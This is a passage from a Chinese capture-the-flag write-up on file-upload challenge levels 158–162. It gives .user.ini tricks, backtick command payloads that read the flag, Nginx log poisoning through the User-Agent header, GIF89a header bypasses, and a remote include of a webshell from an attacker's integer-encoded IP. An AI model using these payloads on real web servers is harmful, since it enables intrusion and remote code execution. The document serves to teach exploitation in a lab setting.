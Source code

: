 ##### 158关：过滤关键字

和157关一摸一样

##### 159关：过滤关键字

和第153关手法一样，结合上传 .user.ini 但是过滤的内容变了

在上一关过滤的基础上，加入了对()的过滤，同时还过来了 flag.php

解决思路：使用反引号，结合通配符

```
构造payload：<?=`tac ../fl*`?>
```

##### 160关：日志文件包含

这一关连反引号都过滤了，1.png里面包含后门的全部失效。

Nginx一般会记录日志，日志会记录访问者的UA头，所以我们可以把后门代码写到UA头里面，然后利用`.user.ini`来包含日志文件，Nginx默认日志位置`/var/log/nginx`

首先上传文件.user.ini，在上传图片

图片中的内容

```
<?=include"/var/lo"."g/nginx/access.lo"."g"?>
```

这时访问upload目录，得到了nginx日志信息

![](https://i-blog.csdnimg.cn/blog_migrate/8ef137303fce0685255ca52f96ee1267.png)

此时我们可以在UA头中写入后门代码。 将日志文件包含解析，我们将UA写入日志文件，进而解析后门代码

![](https://i-blog.csdnimg.cn/blog_migrate/12884aa742c28c9ad90321bd481cfeb3.png)

##### 161关：文件头检测

加上了对文件头的检测，GIF89A，

解决思路：在上传的文件中加入，GIF89A，再延续160关的思路即可

##### 162关：过滤 .

这一关不仅是检测了文件头，也过滤了`()`、`[]`、`{}`、`.`这些，所以我们可以将`.user.ini`的内容写为

```
GIF89a
auto_prepend_file=png
```

![](https://i-blog.csdnimg.cn/blog_migrate/491908b3ea2b5e3ee4e5a942c796ac42.png)

我们可以远程包含文件，然后这个文件里面有一句话木马，这边需要用到IP转换地址，将IP转换为纯数字 网址：[在线ip转int,ip转数字-  <br>BeJSON.com](https://www.bejson.com/convert/ip2int/ "在线ip转int,ip转数字-
BeJSON.com")

```
GIF89a
<?=include'http://IP转换/文件名'>
```
